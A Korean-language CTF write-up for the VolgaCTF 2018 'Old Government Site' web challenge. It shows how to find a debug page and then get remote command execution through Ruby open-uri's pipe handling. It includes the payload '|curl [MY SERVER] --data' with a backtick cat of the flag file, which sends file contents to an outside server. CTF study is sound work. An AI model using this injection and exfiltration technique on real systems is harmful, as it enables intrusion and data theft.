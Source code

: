 # [Web] VolgaCTF - Old Goverment Site

## Description

It's an old government web-site. Please, don't touch it. It works properly.

http://old-government-site.quals.2018.volgactf.ru:8080/



## Analysis

ruby로 구현된 페이지이다. ( ruby on rails, sinatra )

메뉴에 들어가면 /page?id=36과 같은 형태로 페이지를 로드하는 것을 확인할 수 있다.

id를 <u>Array타입</u>으로 페이지를 요청(`/page?id[]=`)하면 에러가 발생하며, 디버그 페이지가 노출된다.

```
/opt/old-government/views/articles.erb in block in singleton class

      </ul>
    </div>
    <br class="clear" />
  </div>
  <!-- ####################################################################################################### -->

       <%=
        case @id.to_i
when 2
  erb :page2
when 5
  erb :page5
when 18
  erb :page18
when 23
```

id의 값을 integer로 캐스팅하여 그에 맞는 페이지를 로드하고, 없을 경우 Page not found가 발생한다.

18번 페이지를 로드하면 Private garbage company 페이지가 나오는데, RCE가 발생하게 생긴 곳이다.

## Exploit

Site에 자신의 서버를 넣으면 응답 값이 날라 온다.

```
$ python -m SimpleHTTPServer 10101
Serving HTTP on 0.0.0.0 port 10101 ...
188.246.233.28 - - [26/Mar/2018 11:02:45] "GET / HTTP/1.1" 200 -
```

Site의 구현이 open_uri의 open으로 구현되있을 거라 예측하였다.

open_uri의 경우 Pipe(|)를 넣어주면 RCE가 가능하다.

> require "open-uri"
>
> open(params[:url]) -> open("|ls") -> 'ls' command execution 

이를 이용해 flag를 얻을 수 있었다.

```
query : |curl [MY SERVER] --data "`cat /*flag*`"

$ nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [188.246.233.28] port 10101 [tcp/*] accepted (family 2, sport 35314)
POST / HTTP/1.1
Host: [MY SERVER]
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 41
Content-Type: application/x-www-form-urlencoded

VolgaCTF{dedicated_to_all_goverment_site}
```



**VolgaCTF{dedicated_to_all_goverment_site}**